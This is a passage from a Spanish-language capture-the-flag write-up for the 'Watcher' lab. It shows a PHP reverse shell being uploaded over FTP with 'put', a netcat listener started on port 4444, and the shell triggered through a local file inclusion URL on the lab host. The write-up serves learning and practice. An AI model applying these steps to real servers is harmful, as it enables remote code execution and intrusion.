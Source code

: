 3.2 Subimos nuestra reverse shell al servidor **"ftp"**, con el comando **"put"** como lo muestra la siguiente imagen:

![flag3](/assets/images/thm-writeup-watcher/watcher_flag3_2.png)

3.3 Abrimos una terminal nueva y la ponemos en escucha por el puerto configurado, en nuestro caso **"4444"** con el siguiente comando:

~~~cs
nc -nlvp 4444
~~~

3.4 Ejecutamos la **rshell.php**, accediendo a la siguiente ruta <http://watcher.local/post.php?post=/home/ftpuser/ftp/files/php-reverse-rshell.php>, desde burpsuite o desde el navegador:

![flag3](/assets/images/thm-writeup-watcher/watcher_flag3_3.png)
